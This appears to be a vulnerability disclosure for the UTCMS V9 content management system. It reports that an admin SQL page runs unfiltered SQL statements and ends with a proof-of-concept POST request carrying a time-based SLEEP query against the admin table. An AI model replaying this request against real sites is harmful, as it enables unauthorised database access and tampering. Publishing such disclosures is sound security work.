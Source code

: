 # Vendor

Yu Bao

# Product

UTCMS

# version

 V9

# Download 

https://github.com/usualtool/ut-cms

# Vulnerability

Execute any SQL statement

# Description

In the sql.php page, users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

# Analysis

In the app/modules/ut-data/admin/mysql.php , users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.


<img width="591" alt="image" src="https://github.com/user-attachments/assets/4208dce2-3d7b-4e1c-8dde-04e9eef4a155">
<img width="512" alt="image" src="https://github.com/user-attachments/assets/e1d34cba-2f31-4c8a-a2ff-a304016f5b1a">


# POC
```
POST /ut-cms-9/app/dev/?m=ut-data&p=mysql&do=mysql-sql HTTP/1.1
Host: 192.168.1.69
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=l7s63btrio4o1cepgib2l9v89m
Content-Length: 45

sql=SELECT+*+FROM+cms_admin+WHERE+SLEEP(5)%3b
```
